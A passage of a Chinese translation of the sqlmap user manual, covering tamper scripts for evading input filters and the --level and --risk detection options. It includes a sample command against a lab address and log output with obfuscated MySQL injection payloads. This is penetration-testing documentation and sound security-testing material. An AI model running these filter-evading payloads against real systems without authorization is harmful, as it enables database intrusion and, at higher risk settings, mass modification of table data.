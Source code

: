 你可以在`tamper/`目录中检查有效和可用的篡改脚本.

对于一个MySQL目标的示例假定`>`字符，空格和`SELECT`字符串都被禁止:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
rmation_schema.tables/**/group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
 HAVING clause' injectable 
[...]
```

## Detection

这些选项可以被用来自定义检测阶段.

### Level

Option: `--level`

这个选项需要一个参数来指定要执行的测试级别。一共有五个等级。默认值是**1**在这里有限的测试（请求）被执行。反之亦然，等级**5**将会对更多的有效负载和边界（如对SQL有效负载前缀和后缀）进行冗长的测试。Sqlmap使用的有效负载在文本文件 `xml/payloads.xml`中指定。按照文件顶部的指令，如果sqlmap错过了注入点，你应该能够添加自己的负载来测试工具!

不仅这个选项影响了有效载荷sqlmap的尝试，也影响了在测试中使用的注入点：GET和POST参数总是被测试，HTTP Cookie头部值从**2**被测试并且HTTP User-Agent/Referer的头部值从**3**被测试.

总之，检测SQL资料隐码越难，就必须设置更高的级别.

强烈建议提高这个值，在向邮件列表报告sqlmap无法检测到某个特定的点时. 

### Risk

Option: `--risk`

这个选项需要一个参数来指定要执行的测试的风险。有**three**风险值。默认值是**1**，对于大多数SQL资料隐码点来说是无害的。风险值2添加到默认级别，用于对基于查询时间的SQL资料隐码进行测试，并且值3也添加到基于SQL资料隐码测试的`OR`上.

在某些情况下，就像SQL注入点在一个`UPDATE`状态下，注入一个基于负载的`OR`可以导致表的所有条目更新，这肯定不是攻击者想要的。由于这个原因和其他原因，这个选项已经被介绍了：用户已经控制了被测试过的那些有效荷载，使用者也可以任意选择使用也有潜在危险的那些。在前面的选项中，sqlmap使用的有效负载在文本文件`xml/payloads.xml`中被指定并且你可以自由编辑和添加你所拥有的.

